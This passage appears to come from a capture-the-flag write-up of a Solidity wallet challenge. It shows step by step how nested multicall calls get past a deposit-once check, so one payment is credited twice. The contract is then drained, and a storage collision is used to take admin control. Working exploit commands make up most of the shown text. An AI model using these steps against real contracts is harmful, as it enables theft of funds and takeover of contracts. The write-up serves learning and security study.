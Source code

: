 But wait! multicall actually extracts function selector (which is first 4 bytes from signature) from the data and makes sure that deposit is called only once per transaction!
```
assembly {
    selector := mload(add(_data, 32))
}
if (selector == this.deposit.selector) {
    require(!depositCalled, "Deposit can only be called once");
    // Protect against reusing msg.value
    depositCalled = true;
}
```

We need another way. Think deeper...we can only call deposit only once in a multicall...but what if call a multicall that calls multiple multicalls and each of these multicalls call deposit once...aha! That'd be totally valid since each of these multiple multicalls will check their own separate depositCalled bools.

The contract balance currently is 0.001 eth. If we're able to call deposit two times through two multicalls in same transaction. The balances[player] would be registered from 0 eth to 0.002 eth, but in reality only 0.001 eth will be actually sent! Hence total balance of contract is in reality 0.002 eth but accounting in balances would think it's 0.003 eth. Anyway, player is now eligible to take out 0.002 eth from contract and drain it as a result. Let's begin.

Here's our call inception (calls within calls within call!)
```
           multicall
               |
        -----------------
        |               |
     multicall        multicall
        |                 |
      deposit          deposit 
```
6. Get function call encodings:
```
// deposit() method
depositData = await contract.methods["deposit()"].request().then(v => v.data)

// multicall() method with param of deposit function call signature
multicallData = await contract.methods["multicall(bytes[])"].request([depositData]).then(v => v.data)
```
Now we call multicall which will call two multicalls and each of these two will call deposit once each. Send value of 0.001 eth with transaction:
```
await contract.multicall([multicallData, multicallData], {value: toWei('0.001')})
```
7. player balance now must be 0.001 eth * 2 i.e. 0.002 eth. Which is equal to contract's total balance at this time. Withdraw same amount by execute:
```
await contract.execute(player, toWei('0.002'), 0x0)
```
8. By now, contract's balance must be zero. Verify:
```
await getBalance(contract.address)

// Output: '0'
```
9. Finally we can call setMaxBalance to set maxBalance and as a consequence of storage collision, set admin to player:
```
await contract.setMaxBalance(player)
```
